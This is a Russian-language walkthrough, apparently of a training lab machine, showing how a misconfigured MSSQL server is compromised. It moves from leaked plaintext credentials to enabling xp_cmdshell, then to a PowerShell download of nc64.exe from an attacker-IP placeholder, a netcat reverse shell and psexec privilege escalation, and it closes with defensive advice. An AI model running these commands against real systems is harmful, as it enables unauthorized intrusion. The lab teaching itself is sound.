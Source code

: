 #### **Уязвимость:**

Уязвимость, которую мы эксплуатировали, связана с **неправильной конфигурацией Microsoft SQL Server (MSSQL)**. В данном случае:

1. **Слабые учетные данные:** В конфигурационном файле **prod.dtsConfig** был обнаружен пароль пользователя **sql_svc** в открытом виде: **M3g4c0rp123**.
    
2. **Включение `xp_cmdshell`:** У пользователя **sql_svc** были права администратора (`sysadmin`), что позволило нам включить `xp_cmdshell` — функцию, которая позволяет выполнять команды операционной системы через SQL Server.
    

---

#### **Что мы сделали для эксплуатации уязвимости:**

1. **Разведка (Enumeration):**
    
    - Сканирование портов с помощью **nmap** показало, что на машине открыты порты **SMB (445)** и **MSSQL (1433)**.
        
    - Использование **smbclient** позволило обнаружить общий ресурс **backups**, где был найден файл **prod.dtsConfig** с учетными данными.
        
2. **Подключение к MSSQL:**
    
    - С помощью инструмента **Impacket** (скрипт `mssqlclient.py`) мы подключились к MSSQL, используя учетные данные **sql_svc:M3g4c0rp123** .
        
3. **Активация `xp_cmdshell`:**
    
    - Проверили, что у пользователя есть права администратора:
        
        sql
        
        Copy
        
        SELECT is_srvrolemember('sysadmin');
        
    - Активировали `xp_cmdshell`:
        
        sql
        
        Copy
        
        EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
        EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
        
4. **Получение обратной оболочки (Reverse Shell):**
    
    - Загрузили **nc64.exe** на целевую машину с помощью **PowerShell**:
        
        sql
        
        Copy
        
        xp_cmdshell "powershell -c wget http://<YOUR_IP>/nc64.exe -outfile nc64.exe"
        
    - Запустили обратную оболочку:
        
        sql
        
        Copy
        
        xp_cmdshell "powershell -c .\nc64.exe -e cmd.exe <YOUR_IP> 4444"
        
5. **Повышение привилегий (Privilege Escalation):**
    
    - Использовали **winPEAS** для поиска уязвимостей.
        
    - Обнаружили файл **ConsoleHost_history.txt**, в котором был сохранен пароль администратора: **MEGACORP_4dm1n!!**.
        
    - Использовали **psexec.py** из Impacket для получения доступа к системе с правами администратора.
        

---

#### **Итог:**

Мы эксплуатировали слабые учетные данные и неправильную конфигурацию MSSQL, чтобы получить доступ к системе, а затем повысили привилегии до уровня администратора. Это классический пример того, как утечка учетных данных и неправильная настройка серверов могут привести к полному компрометированию системы.

---

### Как защититься от подобной уязвимости:

6. **Не храните пароли в открытом виде:** Используйте безопасные методы хранения паролей, такие как хэширование или использование менеджеров паролей.
    
7. **Ограничьте права пользователей:** Убедитесь, что у пользователей MSSQL нет прав администратора, если это не требуется.
    
8. **Отключите `xp_cmdshell`:** Если эта функция не используется, отключите её для предотвращения выполнения произвольных команд.
    
9. **Регулярно обновляйте и патчите системы:** Убедитесь, что MSSQL и операционная система обновлены до последних версий.
    
10. **Мониторинг и аудит:** Регулярно проверяйте логи на подозрительную активность.
